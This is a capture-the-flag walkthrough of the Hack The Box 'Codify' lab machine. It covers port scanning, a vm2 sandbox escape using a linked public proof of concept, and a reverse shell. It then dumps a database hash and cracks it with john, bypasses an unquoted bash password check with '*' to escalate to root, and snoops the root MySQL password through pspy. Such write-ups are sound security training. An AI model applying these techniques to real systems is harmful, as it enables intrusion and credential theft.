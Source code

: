 ```yaml
---
layout: post
title: HTB-Codify
published: true
---
```

# Codify machine on [hackthebox](https://app.hackthebox.com)


### Enumeration

Let's start with nmap scan:
```
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Seeing the result we see we have ssh, and two web servers, to save your time, the two are completely identical, so let's start going to the website and see what do we have:

![](../assets/images/codify/20240406210502.png)
So we see a website that we can use to test our JS code, but of course with limitations (for obvious reasons :D).
We use `require('fs').ReadFile('/etc/passwd')` trying to read a file, but we fail, so let's explore what else could be there. 
![](../assets/images/codify/20240406210840.png)

And we get this in the `about` page:
![](../assets/images/codify/20240406211207.png)
We are interested in this part, it shows what they are using for sand-boxing this editor
```
The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The vm2 is a discontinued project, so going into the github repo [here](https://github.com/patriksimek/vm2/releases/tag/3.9.16), will show us a lot of vulnerabilities.

### Exploitation


One of them ([this one](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)), even has a PoC in it that we can use to issue commands on the system and escape the sandbox.
![](../assets/images/codify/20240406211639.png)
And it worked! we managed to execute `whoami;id`, so let's get a reverse shell.
And we get a shell as `svc` on the box, let's start enumerating

Going into `/var/www/` we can see the folder for this website (editor), and another one called "contact", which also have a Database file, so let's examine it.

It is a sqlite3 database, so let's dump it using:
```bash
sqlite3 tickets.db .dump
```
And we get the following:
```bash
<SNIP>
VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
<SNIP>
```
We get a hash! Let's take it and crack it locally using john.

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' >> joshua.hash

john --wordlist=/opt/wordlists/rockyou.txt joshua.txt
```
And we got the password!
```bash
john --show joshua.hash

?:sp<REDACTED>ob1

1 password hash cracked, 0 left
```
So now is the time for root...

### PE

Doing `sudo -l`, we see we can execute a script:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Taking a look at it, it's doing some stuff related to the database in there, and here is the interesting snippet:

```bash
<SNIP>

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
<SNIP>

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

<SNIP>
```
If we get authenticated, it will issue a command which will use the root password for the database, but how do we get authenticated?

Well staring enough in the above code, we can notice some sort of wildcard abuse chance, see the comparison here is missing because the `$USER_PASS` is not warped in quotes, so what if we inserted `*` ? 
```bash
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
```
We get Password confirmed! so let's try to authenticate to this and also monitor processes using `pspy64` and maybe we can look at the command and get the password.
After running the script, and running pspy too, we wait a bit and see the following:
```bash
<SNIP> 
2024/04/06 18:47:00 CMD: UID=0     PID=21846  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21848  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21847  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh<REDACTED>2kjh3 mysql 
2024/04/06 18:47:01 CMD: UID=0     PID=21849  | 
<SNIP>
```

So trying this password for the root user:
```bash
joshua@codify:/opt/scripts$ su -
Password: 
root@codify:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@codify:~# 

```
It works!

And the box is done! Thanks for reading!

Happy hacking :)
